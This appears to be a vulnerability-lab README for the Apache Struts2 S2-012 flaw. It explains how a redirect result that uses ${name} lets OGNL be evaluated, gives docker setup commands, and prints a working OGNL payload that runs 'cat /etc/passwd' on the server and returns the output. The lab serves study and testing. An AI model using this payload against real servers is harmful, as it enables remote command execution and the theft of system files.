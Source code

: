 # S2-012 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.1.0 - 2.3.13

Details: http://struts.apache.org/docs/s2-012.html

## Reference

If the redirect type is used when configuring `result` in the `action`, and ${param_name} is also used as the redirect variable, for example:

```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

During the redirection process, struts2 performs an OGNL expression parsing on the value of the `name` parameter, so that OGNL expression can be inserted to cause the command execution.

## Setup

```
docker-compose build
docker-compose up -d
```

## Expliot

We can use s2-001's POC directly:

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

Result：

![](1.png)
